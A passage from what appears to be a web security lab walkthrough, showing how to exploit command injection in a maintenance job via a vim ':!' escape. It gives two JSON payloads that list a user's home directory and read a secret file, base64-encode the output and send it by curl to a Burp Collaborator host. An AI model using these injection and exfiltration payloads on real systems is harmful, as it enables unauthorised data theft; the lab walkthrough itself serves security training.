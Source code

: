 
---

### Leak the hidden file name

In Burp Repeater, modify the payload in your malicious input parameter to a command that leaks the contents of Carlos's home directory to the public Burp Collaborator server. The following is one approach for doing this:

```json
"input": ":! ls /home/carlos | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```

* `-d`: This is a common curl option that tells it to include data in the request body. It's followed by the data itself or an indicator of where the data comes from.
* `@-`: This part tells curl to read the data from standard input (stdin). Standard input is basically the keyboard by default, so you would type the data you want to send directly into the terminal after the curl command.

Send the request.

<img width="1439" height="623" alt="image" src="https://github.com/user-attachments/assets/fb31625e-2ee1-408f-9ffe-4badb2f15e96" />


In the browser, go to the admin panel and trigger the maintenance jobs again.

<img width="1580" height="470" alt="image" src="https://github.com/user-attachments/assets/265aa4f0-233b-4d9b-ada7-634016e8d082" />


Go to the **Collaborator** tab and poll for interactions.
Notice that you have received a new HTTP POST request with a **Base64-encoded body**.

<img width="1471" height="876" alt="image" src="https://github.com/user-attachments/assets/1152b00a-0d8d-49a3-b27e-51427797b274" />


Decode the contents of the body to reveal the names of two entries: `node_apps` and `secret`.

<img width="1874" height="647" alt="image" src="https://github.com/user-attachments/assets/18c8a0b3-2b35-4771-a812-8ef11f2a5f9a" />


---

### Exfiltrate the contents of the secret file

In Burp Repeater, modify the payload in your malicious input parameter to a command that exfiltrates the contents of the file `/home/carlos/secret` to the public Burp Collaborator server. The following is one approach for doing this:

```json
"input": ":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```

Send the request.

<img width="1445" height="723" alt="image" src="https://github.com/user-attachments/assets/d073fe86-c6d5-432a-a738-37c90630fe41" />

